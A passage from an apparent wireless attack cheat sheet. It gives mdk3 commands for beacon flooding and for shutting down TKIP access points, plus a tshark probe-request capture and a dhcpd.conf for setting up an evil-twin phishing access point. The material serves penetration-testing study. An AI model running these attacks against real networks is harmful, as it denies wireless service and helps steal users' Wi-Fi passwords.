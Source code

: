 #### Beacon Flood Mode Attack

The beacon frame is a frame that contains information about the access point such as the channel where the AP is working, ciphers, protocols, etc.

These type of beacons are transmitted in plain as other stations and devices need these frames to extract information in order to connect them.

The idea of Beacon Flood Attack such as his name says, flood a large number of beacons in order to create a lot of ESSID in the same Chanel as the target AP in order to make it invisible for users.

```text
# Create a list of AP names:
MyNetwork1
MyNetwork2
MyNetwork3
MyNetwork4
MyNetwork5
MyNetwork6
MyNetwork7
MyNetwork8
MyNetwork9
MyNetwork10

mdk3 <IFACE> b -f networks.txt -a -s 1000 -c <CHANNEL>   # -a -> WPA2  -s <speed>
```

#### Michael Shutdown Explotation

Can shut down APs using TKIP encryption and QoS Extension with 1 sniffed and 2 injected QoS Data Packets, but less effective.

```text
mdk3 <IFACE> m -t <BSSID>
```

## Evil Twin

One of the most common techniques to obtain the password of a wireless network via phishing. It's common that the devices emit Probe Request frames when their are not associated to any AP. These Probe Request frame ares packets that contain information about which SSID the device was connected before. So we can abuse of that information in order to create a Fake AP with the same SSID.

```text
thark -i <IFACE> -Y "wlan.fc.type_subtype==4" 2>/dev/null
   1 0.000000000 Apple_7d:1f:e9 → Broadcast    802.11 195 Probe Request, SN=1063, FN=0, Flags=........C, SSID=MOVISTAR_PLUS_2A51
    2 0.019968349 Apple_7d:1f:e9 → Broadcast    802.11 195 Probe Request, SN=1064, FN=0, Flags=........C, SSID=MOVISTAR_PLUS_2A51
```

### Creating DHCP file

/etc/dhcpd.conf

```text
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast-address 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
